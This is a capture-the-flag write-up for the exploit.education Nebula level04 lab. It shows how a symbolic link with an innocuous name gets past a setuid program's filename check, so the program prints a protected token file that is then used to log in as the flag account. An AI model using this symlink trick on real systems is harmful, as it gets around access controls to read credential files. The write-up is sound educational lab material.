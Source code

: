 # Challenge
Bypass the checks in the given program

Challenge Link: https://exploit.education/nebula/level-04/

# Solution
Looking at the provided source code there are a number of checks: 
1. It checks that we've provided an argument. If not, it prints out a help message.
2. It checks if "token" is in the name of the argument provided. If so, the programs fails with the message "You may not access *filename*."
3. It checks if it can open the file. If not, the program fails with the message "Unable to open *filename*."
4. Finally, it checks if it can read the file. If not, the program fails with the message "Unable to read *filename*."

Why does this matter? Looking in the `/home/flag04` directory we see a file called `token`. Presumably, we need the contents of this file to solve level04. However, the program refuses to read the file because of check 2 and we can't accessthe file due to permissions.
```shell
level04@nebula:~$ ls /home/flag04/
flag04 token
level04@nebula:~$ /home/flag04/flag04 /home/flag04/token
You may not access `/home/flag04/token'
level04@nebula:~$ cat /home/flag04/token
cat: /home/flag04/token: Permission denied
level04@nebula:~$ cp /home/flag04/token /home/flag04/test
cp: cannot open `/home/flag04/token' for reading: Permission denied
level
```

The solution is to create a symbolic link to the token file with a name that doesn't include 'token.' This bypasses the second check since the argument we're providing doesn't have 'token' in it but actually points to the token file we are interested in.
```shell
level04@nebula:~$ ln -s /home/flag04/token solve
level04@nebula:~$ /home/flag04/flag04 solve
06508b5e-8909-4f38-b630-fdb148a848a2
```

We can use the output to login in to the flag04 user and solve level04.
```shell
level04@nebula:~$ su - level04
Password:
flag04@nebula:~$ getflag
You have sucessfully executed getflag on a target account
```

Success! We have solved level04.

# Further Reading
For more information on symbolic links, here's an article from Red Hat: [Hard links and soft links in Linux explained](https://www.redhat.com/sysadmin/linking-linux-explained)
